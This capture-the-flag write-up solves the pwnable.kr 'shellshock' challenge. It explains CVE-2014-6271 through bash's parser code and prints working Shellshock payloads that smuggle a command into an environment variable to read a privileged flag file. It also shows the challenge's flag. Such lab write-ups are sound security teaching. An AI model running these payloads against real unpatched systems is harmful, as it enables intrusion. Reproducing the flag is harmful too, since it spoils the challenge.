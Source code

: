 ```yaml
---
title: "Writeup: shellshock"
date: 2020-12-14T23:00:54+08:00
draft: false
---
```


This is a challenge in [pwnable.kr](https://pwnable.kr/). The home directory contains the following files: 

```
shellshock@pwnable:~$ ls -al
total 980
drwxr-x---   5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 116 root root             4096 Apr 17  2020 ..
-r-xr-xr-x   1 root shellshock     959120 Oct 12  2014 bash
d---------   2 root root             4096 Oct 12  2014 .bash_history
-r--r-----   1 root shellshock_pwn     47 Oct 12  2014 flag
dr-xr-xr-x   2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x   2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-sr-x   1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--   1 root root              188 Oct 12  2014 shellshock.c
```

The source code can be displayed as follows. 

```
shellshock@pwnable:~$ cat shellshock.c
#include <stdio.h>
int main(){
      setresuid(getegid(), getegid(), getegid());
      setresgid(getegid(), getegid(), getegid());
      system("/home/shellshock/bash -c 'echo shock_me'");
      return 0;
}
```

Originally, the permission of the executable shellshock is `r-xr-sr-x`, that is, our permission (other) is r-x. The function setresuid() is used to set the real, effective, and saved user ID; setresuid() has analogous function that set the real, effective, and saved group ID. Since shellshock belongs to the group shellshock_pwn, after executing the setresuid and setresgid function, we are able to own the same permission as group shellshcok_pwn.

[Shellshock](https://en.wikipedia.org/wiki/Shellshock_(software_bug)) is a vulnerability in the Bash shell, it is first published in 2014. According to the report [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271), attackers can exploit it with a crafted environment variable. The bug is about parse logic, it is located in [variables.c](http://git.savannah.gnu.org/cgit/bash.git/tree/variables.c?id=ac50fbac377e32b98d2de396f016ea81e8ee9961#n315). Here is the part of source code. 

```
void initialize_shell_variables (env, privmode)
     char **env;
     int privmode;
{
    ...
    for (string_index = 0; string = env[string_index++]; )
    	...
      	/* If exported function, define it now.  Don't import functions from
	 the environment in privileged mode. */
      	if (privmode == 0 && read_but_dont_execute == 0 && STREQN ("() {", string, 4))
      	{
            ...
            if (posixly_correct == 0 || legal_identifier (name))
                parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
```

As you can see, STREQN ("() {", string, 4) means the program check whether the first 4-byte of the string is "() {" or not. If the string starts at "() {", the shell program will treat it as an environment variable. However, it may cause a security problem since more general strings are allowed to be executed. 

For example, the string can contain two commands which are separated by a semicolon (;) symbol, then both the commands will be executed. 

```
env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
                 ^^^^^^^^^^^^^^^                                arbitrary command
```

Now, let's check if Shellshock vulnerability exists in the challenge. Obviously, the bash provided is not safe. 
```
shellshock@pwnable:~$ env x='() { :;}; echo velnerable' ./bash -c "echo this is a test"
velnerable
this is a test
```

So we can exploit it and get the flag. 

```
shellshock@pwnable:~$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault (core dumped)
```

<br>

## Reference

1. Computer & Internet Security: A Hands-on Approach, Wenliang Du. 
2. CVE-2014-6271 (Shellshock): The story of a permissive parser, Portcullis Labs. 